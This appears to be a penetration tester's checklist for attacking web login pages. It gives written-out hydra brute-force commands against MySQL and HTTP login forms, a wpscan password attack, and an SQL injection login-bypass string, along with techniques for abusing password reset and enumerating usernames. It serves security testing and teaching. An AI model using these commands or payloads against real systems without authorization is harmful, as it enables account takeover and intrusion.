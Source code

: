 # Web Login Page Checklist

## Bruteforcing

### Hydra MYSQL

```
hydra -l root -P /root/rockyou.txt mysql://192.168.52.88:3306
```

## Hydra HTTP Form

{% code overflow="wrap" %}
```
hydra 192.168.167.70 http-form-post "/ctl00%24ContentPlaceHolder1%24UsernameTextBox=^USER^&ctl00%24ContentPlaceHolder1%24PasswordTextBox=^PASS^: Incorrect username or password..." -L users.txt -P /root/rockyou_utf8.txt -vV -f
```
{% endcode %}

Or

{% code overflow="wrap" %}
```
hydra 10.10.95.178 http-form-post "/squirrelmail/src/login.phpp:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect." -l milesdyson -P passwords.txt -vV
```
{% endcode %}

## Wordpress (wpscan)

{% code overflow="wrap" %}
```
wpscan  --url  http://192.168.132.78/wordpress/ -U max -P /usr/share/wordlists/rockyou.txt
```
{% endcode %}

## SQLi and Bypass

Username:

```
' or 1=1-- -
```

Password:

```
' or 1=1-- -
```

{% embed url="https://book.hacktricks.xyz/pentesting-web/login-bypass" %}

## Common or default passwords

* Look up CMS/version or common passwords for login
* Try the basics

## Password Reset Functionality

Make sure that a user can only reset her own password. If a privileged user can reset other users’ passwords, make sure that the super user cannot see the new password.&#x20;

During password change, intercept the traffic with burp and check if username is present in the request. If it is, change the username to see what happens.&#x20;

You might change someone else’s password this way. After a password reset, user should be informed via e-mail or sms.&#x20;

If the system requires high level security, password reset functionality should try to id the user before sending a password reset e-mail or code.&#x20;

If the system sends back your forgotten password, it means they are keeping it in somewhere which is always a bad idea. (MediaMarkt used to do this)

## Can you register as a new user?

Try to register as a new user, this could get us RCE as a low level user or get us further clarifying information (like CMS version)

​Testing for user registration and provisioning

Ask the following questions and try to find answers. There is no wright or wrong answer. You should decide if the answer makes sense or not.

1. Can anyone register for access?
2. Are registrations vetted by a human prior to provisioning, or are they automatically granted if the criteria are met?
3. Can the same person or identity register multiple times?
4. Can users register for different roles or permissions?
5. What proof of identity is required for a registration to be successful?
6. Are registered identities verified?
7. Can identity information be easily forged or faked?
8. Can the exchange of identity information be manipulated during registration?
9. Is there any verification, vetting and authorization of provisioning requests?
10. Is there any verification, vetting and authorization of de-provisioning requests?
11. Can an administrator provision other administrators or just users?
12. Can an administrator or other user provision accounts with privileges greater than their own?
13. Can an administrator or user de-provision themselves?
14. How are the files or resources owned by the de-provisioned user managed? Are they deleted? Is access transferred?

## Username Enumeration

Enter a valid username and a wrong password. Note the warning you get. then Enter an invalid username and a password. If you get a different warning this means you can collect the valid usernames using brute-force. For example I registered to etsy.com with desidero44@yahoo.com mail address and tried to login with a wrong password, then tried to login with desidero55@yahoo.com which is not registered to etsy.com at all.

* If there is a directory that can be accessed with the username like site.com/users/my\_user\_name we can try to access the page with different user names. You might get a 403 forbidden for registered users and 404 for invalid usernames. Test forgot password functionality to see if generates different error messages for valid and invalid usernames. An advanced technique is to measure the server response time for valid and invalid usernames. Server might take longer to respond to valid user names.































